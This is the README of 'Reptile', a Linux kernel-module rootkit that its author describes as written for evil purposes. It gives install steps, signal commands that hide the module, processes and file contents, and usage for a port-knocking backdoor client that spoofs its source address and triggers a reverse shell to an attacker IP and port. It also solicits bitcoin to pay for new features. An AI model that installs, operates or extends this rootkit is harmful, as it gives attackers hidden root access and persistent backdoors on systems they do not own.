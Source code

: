 # Reptile

<img align="left" src="https://imgur.com/nqujOlz.png">

<br><br><br><br>Reptile is a LKM rootkit written for evil purposes that runs on kernel 2.6.x/3.x/4.x. Let him does his fatality!<br><br><br><br>

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Hidden boot persistence
- Heaven's door - A ICMP/UDP/TCP port-knocking backdoor
- Client to knock on heaven's door :D
   
## Roadmap

- Socket/Packet hiding
- Port-knocking backdoor in kernel land
 
## Install
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
./install.sh remove
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

<p align="center">
   <img src="https://imgur.com/bb3Bs5l.png">
</p>

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP/TCP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's (Back)Door
Written by: F0rb1dd3n

Usage: ./knock <args>

-x      Protocol (ICMP/UDP/TCP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l
TCP:  ./knock -x tcp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 80 -d "F0rb1dd3n 192.168.0.4 4444" -l

```
<p align="center">
   <img src="https://imgur.com/suuOUj2.png">
</p>

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/mncoppola/suterusu
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project. 

I will consider writing new features with contribution to my BTC Wallet: `1ASRMARFrpSanLHXCdNHD7K7pvr1fbK2fb`

<p align="center">
   <img src="https://imgur.com/RdYgb1T.gif">
</p>
